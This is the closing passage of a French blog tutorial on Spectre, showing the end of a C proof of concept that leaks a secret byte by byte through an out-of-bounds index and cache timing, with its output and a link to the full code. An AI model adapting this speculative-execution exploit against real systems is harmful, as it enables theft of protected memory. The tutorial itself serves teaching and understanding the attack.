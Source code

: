 ```c
        }
    }
}

int main(void) {
    for (int i = 0; i < sizeof(paged_buffer); i++) {
        paged_buffer[i] = 1; /* Permet d'éviter une optimisation appelée lazy allocation */
    }

    int len = 7;

    /*
     * L'index qu'on passe en argument sera utilisé de la manière suivante :
     * paged_buffer[buffer[idx] * PAGE_SIZE];
     * J'ai rappelé dans l'article sur meltdown et spectre que
     * buffer[idx]
     * était équivalent à
     * *(buffer + idx)
     * Donc pour accéder à l'adresse du premier octet de secret, on cherche
     * secret = buffer + idx
     * donc idx = secret - buffer
     * D'où le choix de l'argument dans l'instruction suivante.
     *
     * Le compteur est incrémenté pour avoir tous les octets du secret
     */
    for (int i=0; i<len; i++) {
        get_all_access_time(secret - (char * ) buffer + i);    
    }
    printf("\n");
    return 0;
}
```

Ce PoC final permet de récupérer la valeur complète du secret. En effet, en l'exécutant, voilà le secret tant attendu :

```
pixis@hackndo:~/spectre$ gcc -O0 poc_final.c -o poc_final && ./poc_final
SECRET
```

Vous trouverez tous les codes sources sur [mon github](https://github.com/Hackndo/spectre-poc){:target="blank"}.

J'espère que cet article vous aide à y voir encore plus clair. Comme d'habitude, n'hésitez pas à commenter ou à me retrouver sur [Discord](https://discord.gg/9At6SUZ){:target="blank"} pour plus d'informations, des remarques, des corrections, etc.

Je tenais à remercier [Gynvael](https://twitter.com/gynvael){:target="blank"} pour le [live](https://www.youtube.com/watch?v=0o6MoJ2gHHI){:target="blank"} qu'il a fait sur le sujet, me permettant de combler les trous manquant afin de terminer cet article.
